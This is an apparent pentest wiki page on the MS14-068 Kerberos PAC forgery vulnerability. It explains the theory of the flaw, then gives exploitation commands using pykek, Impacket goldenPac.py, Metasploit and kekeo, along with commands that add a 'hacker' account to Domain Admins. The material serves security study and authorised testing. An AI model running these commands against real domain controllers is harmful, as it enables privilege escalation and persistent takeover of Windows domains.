 ```yaml
---
description: CVE-2014-6324
---
```


# MS14-068

## Theory

This vulnerability allows attackers to forge a TGT with high privileges (i.e. with a modified PAC stating the user is a member of privileged groups). This attack is similar to the [Golden ticket](golden.md), however, it doesn't require the attacker to know the `krbtgt`. This attack is a really powerful privilege escalation technique, however, it relies on a 2014 bug and will not work on patched domain controllers.

This vulnerability is possible due to a misvalidation of the PAC signature, allowing to craft a PAC granting powerful rights to a user while still being legitimate in the eyes of the KDC(Key Distribution Center). Contrary to what Microsoft doc states [here](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-pac/6e95edd3-af93-41d4-8303-6c7955297315?redirectedfrom=MSDN), there are more than three `SignatureTypes` accepted by the KDC : before MS14-068 patch, a signature was considered valid by `KdcVerifyPacSignature` if its size was <= 20 bytes. Therefore, it was possible to sign a PAC with a non-keyed hashing algorithm such as MD5 and have this PAC be considered valid.

{% hint style="info" %}
A non-keyed algorithm is a type of encryption that does not use a key to encrypt or decrypt the data. It uses instead a fixed algorithm, which makes it much less secure than a keyed algorithm. Non-keyed algorithms are usually easier to crack or break because they do not have the added security of a key to protect the data.
{% endhint %}

The exploitation goes as follow:

1. A PAC-less TGT is obtained via an AS-REQ with the `PA-PAC-REQUEST` attribute set to false. This will be used in a later step.
2. A PAC indicating an account membership to powerful groups in the domain is forged and "signed" with MD5 (or any other non-keyed algorithm listed [here](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-kile/c6dabc82-0792-4475-a44e-ae9b640d2613)).
3. A TGS-REQ message, requesting a service ticket targeting the KRBTGT service (i.e. a TGT-like) is sent to the vulnerable KDC, using the forged PAC from step (2) encrypted with a sub-session key (usually the session key) and included in the TGT from step (1).
4. In response to step (3), a new TGT containing the forged PAC will be received from the vulnerable KDC after its validation of the forged PAC (the vulnerability happens here).

The newly obtained TGT can be use like a [golden ticket](golden.md), with [pass-the-ticket](../ptt.md), to perform privileged various actions.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
{% hint style="info" %}
Referring to [kekeo](https://github.com/gentilkiwi/kekeo/wiki/ms14068)'s wiki might help untangle some situations but errors like `KDC_ERR_SUMTYPE_NOSUPP (15)` or `KRB_ERR_GENERIC (60)` when trying to use the generated `.ccache` ticket should mean the target is patched.
{% endhint %}

#### PyKEK

This attack can be operated with [pykek](https://github.com/mubix/pykek)'s [ms14-068](https://github.com/mubix/pykek/blob/master/ms14-068.py) Python script. The script can carry out the attack with a cleartext password or with [pass-the-hash](../../ntlm/pth.md).

In order to operate the attack, knowing a domain account’s name, its password (or hash) and its SID are needed.

A TGT can then be obtained with one of the following commands.

```bash
# with a plaintext password
ms14-068.py -u 'BASICUSER'@'DOMAIN_FQDN' -p 'PASSWORD' -s 'BASICUSER_SID' -d 'DOMAIN_CONTROLLER'

# with pass-the-hash
ms14-068.py -u 'BASICUSER'@'DOMAIN_FQDN' --rc4 'NThash' -s 'BASICUSER_SID' -d 'DOMAIN_CONTROLLER'
```

Once the `.ccache` TGT is obtained, if the attack is successful, the ticket will be usable with [pass-the-ticket](../ptt.md). An easy way to check if the TGT works is to use it and ask for a service ticket. This can be done with Impacket's [getST.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) (Python).

```bash
getST.py -k -no-pass -spn 'any_valid_spn' $DOMAIN_FQDN/$USER
```

This step will only make sure the TGT works though. It will not indicate for sure that the attack worked. This is because a patched DC could ignore the forged PAC and include a legitimate PAC instead. But the TGT would still be valid. It would simply be "unprivileged". Trying to use the service ticket for a privileged taks, [DCSync](../../credentials/dumping/dcsync.md) for instance, is advised.

{% hint style="info" %}
Another way of knowing, for sure, if the target DC is patched or not is to decrypt the ticket obtained with [describeTicket.py](https://github.com/fortra/impacket/pull/1201) and make sure the PAC features the privileged groups (512, 518, 519, 520). If the privileged groups are missing, it means the DC is patched and the forged PAC was ignored and replaced with a legitimate one. Knowing the krbtgt key is needed, so this would best fit a whitebox audit scenario (or successful pentest).
{% endhint %}

{% hint style="warning" %}
In some scenarios, I personally have had trouble using the `.ccache` ticket on UNIX-like systems. What I did was [convert it](../ptt.md#practice) to `.kirbi`, switch to a Windows system, inject the ticket with mimikatz's using[`kerberos:ptt`](https://tools.thehacker.recipes/mimikatz/modules/kerberos/ptt) command, and then create a new user and add it to the domain admins group.

```bash
net user "hacker" "132Pentest!!!" /domain /add
net group "Domain Admins" /domain /add
```
{% endhint %}

#### Impacket (goldenPac.py)

The attack can also be carried out automatically using Impacket's [goldenPac.py](https://github.com/fortra/impacket/blob/master/examples/goldenPac.py) (Python). This tool conducts the attack and tries to open a privileged session using the obtained TGT and PsExec. The TGT can be stored locally with the `-w path` parameter.

```bash
goldenPac.py $DOMAIN_FQDN/$USER:$PASSWORD@$DC_FQDN -dc-ip $DC_IP
```

#### Metasploit Framework

The Metasploit Framework can also be useful in the sense that it prints valuable error information.

```bash
msf6 > use admin/kerberos/ms14_068_kerberos_checksum
```
{% endtab %}

{% tab title="Windows" %}
#### Kekeo

Prerequisite : Build ms14068.exe following [kekeo's documentation](https://github.com/gentilkiwi/kekeo#readme).

```batch
# NB : ms14068.exe can act in two ways
# /ticket : Write the obtained ticket on disk with default name tgt.kirbi
# /ptt : Pass-the-ticket by directly injecting the obtained TGT into LSA

# with password
# domain SID and user RID are automaticaly discovered
ms14068.exe /domain:$domain /user:$user /password:$password /kdc:$VULN_KDC_FQDN

# with an NT hash
# AES-128 and AES-256 keys are also usable with /aes128 and /aes256 respectively
# note that automatic discovery of the user SID is not possible when using hash 
ms14068.exe /domain:$domain /user:$user /key:$krbtgt_NThash /sid:$DomainSID /rid:$userRelativeID /kdc:$KDC_FQDN
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://labs.withsecure.com/publications/digging-into-ms14-068-exploitation-and-defence" %}

{% embed url="https://ruuand.github.io/MS14-068/" %}

{% embed url="https://adsecurity.org/?p=525" %}

{% embed url="https://adsecurity.org/?p=541" %}

{% embed url="https://www.beyondtrust.com/blog/entry/a-quick-look-at-ms14-068" %}

{% embed url="https://github.com/gentilkiwi/kekeo/wiki/ms14068" %}

{% hint style="info" %}
Parts of this page were written with the help of the [ChatGPT](https://openai.com/blog/chatgpt/) AI model.
{% endhint %}
